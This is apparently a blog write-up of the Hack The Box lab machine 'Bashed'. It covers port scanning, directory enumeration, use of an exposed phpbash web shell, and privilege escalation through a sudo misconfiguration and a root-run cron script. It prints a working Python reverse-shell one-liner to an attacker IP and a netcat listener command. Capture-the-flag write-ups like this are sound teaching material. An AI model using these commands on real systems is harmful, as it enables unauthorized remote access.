 +++
draft = true
date = 2020-06-16T16:04:02+01:00
title = "Bashed"
description = ""
slug = ""
tags = []
categories = []
externalLink = ""
series = []
weight = 4  
+++


# Machine info

- OS : Linux
- Difficulty : Easy
- Points : 20
- IP : 10.10.10.68


# Mind Map
![Bashed_MindMap](/images/htb/bashed_mindmap.png)


# Reconnaisance

Initial scan results:

{{< highlight html >}}
sudo nmap -sS -p- -n 10.10.10.68 -oA nmap/sS_full_scan
...
Nmap scan report for 10.10.10.68
Host is up (0.066s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE
80/tcp open  http
{{< /highlight >}}

**Note**: a full port UDP scan does not reveal any new open port.

With the `-sV` option I can see that `Apache HTTP Server 2.4.18` is running on port 80.


# Enumeration

I proceed visiting http://10.10.10.68:80.

![Bashed_Website](/images/htb/bashed_website.png)

The website owner is telling me that a tool named `phpbash` is installed on the server and that it could be very useful for pentesting. Also a link to the GitHub repository tool is given, where I can find more info about it:

> phpbash is a standalone, semi-interactive web shell. It's main purpose is to assist in penetration tests where traditional reverse shells are not possible. The design is based on the default Kali Linux terminal colors, so pentesters should feel right at home.

I don't know where to look for the web shell, so I try to enumerate directories on the web server to see if I can find something:

{{< highlight html >}}
sudo python3 /opt/dirsearch/dirsearch.py -u http://10.10.10.68/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -r -f -e php
{{< /highlight >}}
Where:
- `-w` specifies the wordlist used for enumerating the web server
- `-r` stands for recursive mode
- `-f` stands for force extensions
- `-e` for specifying the desired extension to search

After a few moments, *dirsearch* is able to find some resources on the web server:

{{< highlight bash >}}
[10:39:17] Starting:
[10:39:18] 403 -  290B  - /.php
[10:39:18] 403 -  291B  - /.html
[10:39:18] 200 -    8KB - /index.html
[10:39:18] 200 -    2KB - /images/   
[10:39:19] 200 -    8KB - /contact.html  
[10:39:19] 200 -    8KB - /about.html   
[10:39:24] 403 -  292B  - /icons/         
[10:39:31] 200 -   14B  - /uploads/       
[10:39:47] 200 -  939B  - /php/                    
[10:40:06] 200 -    2KB - /css/                
[10:40:31] 200 -    1KB - /dev/                 
[10:40:42] 200 -    3KB - /js/                
CTRL+C detected: Pausing threads, please wait...
{{< /highlight >}}


# Exploitation

The web shell is under `/dev` and I can see that I'm logged in as the `www-data` user! We're in!

# Privilege escalation

At this point I have to figure out how to obtain full access to the server.

The first thing I look for is to see if there is something I can sudo with the current user without providing a password:

{{< highlight html >}}
www-data@bashed
:/var/www/html/dev# sudo -l

Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
{{< /highlight >}}

I'm able to run any command with root privileges as the `scriptmanager` user!

To change current user I can use the following command:

{{< highlight html >}}
sudo -i -u scriptmanager
{{< /highlight >}}
Where:
- `-i` stands for login
- `-u` stands for users

I'm not able to do so inside the current web shell as it is not persistent, so I need to create a reverse shell to my machine in order to proceed. I'll use a **python reverse shell** obtained from the **Pentestmonkey** website:

I set up a netcat listener on my machine:

{{< highlight html >}}
nc -nlvp 4445
{{< /highlight >}}


And launch the reverse shell from the web shell:

{{< highlight python >}}
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.18",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
{{< /highlight >}}

I receive a connection back in a few seconds. From the new shell I'm able to change user to `scriptmanager`.

It took me a while here to understand what to do next, but at the end I found an interesting directory under `/` named `/scripts` owned by the `scriptmanager` user. Inside this directory there's a file named `test.py` (owned by *scriptmanager*) that writes into `test.txt` (owned by *root*) every minute or so. From here it is easy to get root as I only have to set up a netcat listener on my machine and insert a reverse shell code in the `test.py` file and wait for the connection!


## Lessons learned and remediations

- Never expose so easily a shell on the web server.
- Always check for misconfigurations about user permissions. Why was the `www-data` user able to run commands as `scriptmanager`?
